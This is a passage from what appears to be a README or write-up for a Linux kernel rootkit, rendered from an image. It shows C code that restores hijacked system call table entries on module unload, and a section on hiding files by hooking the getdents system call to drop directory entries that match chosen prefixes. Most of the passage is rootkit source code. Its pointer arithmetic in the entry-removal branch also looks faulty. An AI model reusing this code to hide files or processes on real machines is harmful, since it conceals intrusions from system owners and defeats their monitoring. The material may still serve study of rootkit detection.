     	 misc_deregister(&kcr);
    	 
    	// Restore all system calls to the original ones
    	PROT_DISABLE;
    	sys_call_table[__NR_write] = (unsigned long) original_write;
    	sys_call_table[__NR_getdents] = (unsigned long) original_getdents;
    	sys_call_table[__NR_setreuid] = (unsigned long) original_setreuid;
    	sys_call_table[__NR_read] = (unsigned long) original_read;
    
    	if(rm_HJ_proc() == false)
    		panic("oops HJ_proc\n");
    
    	PROT_ENABLE;
    }


(3) Hiding files and directories by hijacking _getdents _system call

By hooking the “_getdents_” system call - getting directory entries in a directory and return them to a passed in a buffer - the “_my_getdents_” function filters out whether or not there are predefined prefixes. If so, overwrite the entry with its successor in an iterative way until reaching the end. The corresponding code is in _src/HJ_ls.c_

    
    if(ret){
    		buf = kmalloc(ret, GFP_KERNEL);
    		copy_from_user(buf, dirp,ret);
    		ptr = (char *)buf;
    flag1:		while(ptr < (char *)buf + ret) {
    			curr = (struct dirent *)ptr;
    			str_idx = 0; 
    			tmp = hide_prefix[str_idx];
    			while(tmp){
    				if(strstr(curr->d_name, tmp)){
    					if(curr != buf)	{
    						prev->d_reclen += curr->d_reclen;
    						goto find;
    					}
    					else{
    						ret -= curr->d_reclen;
    						memcpy(curr, curr + curr->d_reclen, ret);
    						goto flag1;
    					}
    				}else{
    					tmp  = hide_prefix[++str_idx];
    					continue; 
    				}
    			}
    			goto notfound;
    find:			ptr += curr->d_reclen;
    			goto flag1;
    notfound:		prev = curr;                  
    			ptr += curr->d_reclen;
    		}	
    		copy_to_user(dirp, buf, ret);
    		kfree(buf);
    }
